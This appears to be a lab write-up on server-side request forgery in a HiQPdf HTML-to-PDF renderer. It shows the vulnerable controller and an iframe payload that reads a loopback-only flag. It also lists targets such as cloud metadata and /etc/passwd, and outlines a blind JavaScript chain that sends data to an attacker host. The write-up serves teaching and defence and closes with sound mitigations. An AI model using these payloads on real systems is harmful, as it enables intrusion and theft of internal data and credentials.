


# SSRF in a Server-Side HTML-to-PDF Renderer (HiQPdf on ASP.NET Core)

## TL;DR

A web app that accepts HTML from a user and renders it to a PDF server-side will happily fetch every external resource the HTML references, from the server's own network position. A single injected `<iframe>` or `` tag is enough to make the server reach loopback services, internal hosts, or cloud metadata endpoints, and return the result inside the generated PDF. This is a class-level architectural flaw, not a library-specific bug.

## Lab Setup

- **OS:** Parrot OS (Debian 12 / Bookworm base)
- **Runtime:** .NET 8.0 SDK (`dotnet-install.sh --channel 8.0`)
- **Framework:** ASP.NET Core MVC (`dotnet new mvc -n pdfmaker`)
- **PDF engine:** HiQPdf.Next (`HiQPdf.Next.Core.Linux` + `HiQPdf.Next.HtmlToPdf.Linux`, v18.81.0)
- **Native deps:** `libgdiplus`, `libx11-6`, `libxcb1`, `libxrender1`, `libfontconfig1`

Two services on the same host:

| Service | Bind | Purpose |
|---|---|---|
| `pdfmaker` (ASP.NET Core) | `0.0.0.0:8080` | Vulnerable app. Takes HTML, returns PDF. |
| Flag server (`python3 -m http.server`) | `127.0.0.1:8000` | Simulated internal-only service. Not reachable from the network, only from localhost. |

The flag is served by a separate loopback-only HTTP server so it clearly represents an internal resource the attacker cannot reach directly.



## The Vulnerable Code

`Controllers/HomeController.cs`:

```csharp
using Microsoft.AspNetCore.Mvc;
using HiQPdf.Next;

namespace pdfmaker.Controllers;

public class HomeController : Controller
{
    [HttpGet]
    public IActionResult Index()
    {
        return View();
    }

    [HttpPost]
    public IActionResult Convert([FromForm] string html)
    {
        HtmlToPdf htmlToPdfConverter = new HtmlToPdf();
        byte[] pdfBuffer = htmlToPdfConverter.ConvertHtmlToMemory(html, null);
        return File(pdfBuffer, "application/pdf", "mypdf.pdf");
    }
}
```

Three lines. That is the whole bug. `html` is attacker-controlled, and `ConvertHtmlToMemory` hands it to a Chromium-backed renderer. The shipped runtime directory (`hiqpdf_runtimes/linux-x64/native/`) contains `libcef.so`, `chrome-sandbox`, and `hiqpdf_loadhtml` — a full embedded Chromium engine. The renderer walks the DOM, fetches every referenced resource from the server's network namespace, and paints the result into the PDF.

## Why This Works

The renderer is a server-side fetcher with browser-grade capabilities:

- It parses and renders HTML, CSS, and JavaScript.
- It resolves relative and absolute URLs, including `http://`, `https://`, and `file://`.
- It runs JavaScript inside an embedded Chromium engine.
- It runs as the ASP.NET Core process, inheriting that process's network position and credentials.

When the submitted HTML contains `<iframe src="http://127.0.0.1:8000/flag.txt">`, the renderer issues the request itself, from localhost. The loopback-only flag server answers, because the request genuinely originates from localhost. The response is painted into the PDF and returned to the caller.

## Full-Read Exploitation

Because the generated PDF is returned to the caller, the entire response body of any resource the server can reach is readable directly inside the PDF. An `<iframe>` or `` pointing at an internal resource renders that resource's content into the output.



Reachable from the renderer's position:

- `http://127.0.0.1:<port>/...` — loopback-only services
- `http://169.254.169.254/...` — cloud metadata endpoints
- `file:///etc/passwd` — local filesystem, if the scheme is permitted
- `http://<internal-host>/...` — anything on the server's private network

## Blind Exploitation

Even without reading the PDF, exfiltration is possible because the renderer executes JavaScript. The chain:

1. Attacker hosts an HTML page with inline JS on a server they control.
2. The vulnerable app is coerced into loading that page via an injected `<iframe src="http://attacker/exploit.html">`.
3. The renderer executes the JS.
4. The JS makes a synchronous XHR to the internal resource. Synchrony matters — an async request returns before the response arrives and the renderer moves on.
5. The JS encodes the response (base64) and beacons it to an attacker-controlled listener.

The vulnerable server makes two outbound requests: one to fetch the attacker's payload, one to deliver the loot. The attacker never sees the PDF.

## The Generalization

This is not a HiQPdf bug. It is the architecture of every HTML-to-PDF renderer, screenshot service, link-preview generator, and mail templating engine that resolves references server-side:

- wkhtmltopdf — CVE-2022-35583, CVSS 9.8
- Pandoc — CVE-2025-51591, actively exploited against EC2 IMDS
- Puppeteer / Playwright, WeasyPrint, PrinceXML, IronPDF, and HiQPdf

The library changes the flavor of the bug (does it execute JS? follow redirects? allow `file://`?), not its class. The invariant is: **server-side resolver + attacker-controlled content = SSRF**.

## Defensive Controls

Sanitizing HTML is not a fix. The fix is starving the resolver:

- **Egress allowlist** — only explicitly permitted hosts and schemes can be reached from the renderer. Re-apply the check on every redirect hop, and resolve the hostname yourself rather than trusting the name.
- **Network isolation** — run the renderer in a namespace or container with no route to loopback, RFC1918, or `169.254.169.254`. Block link-local and private ranges explicitly at that gateway, including IPv6.
- **Disable external resource loading** in the library, if the use case permits.
- **Disable JavaScript execution** in the renderer.
- **Scheme allowlist** — typically only `http` and `https`; drop `file://`, `gopher://`, `dict://`, `ftp://`.
- **Run as an unprivileged user** in a filesystem sandbox, so `file://` reads do not reach `/etc/passwd`.
- **Enforce IMDSv2 on AWS** — `HttpTokens=required`, `HttpPutResponseHopLimit=1`.

## References

- CVE-2022-35583 — wkhtmltopdf SSRF via iframe injection, CVSS 9.8
- CVE-2025-51591 — Pandoc SSRF against EC2 IMDS, disclosed Sep 2025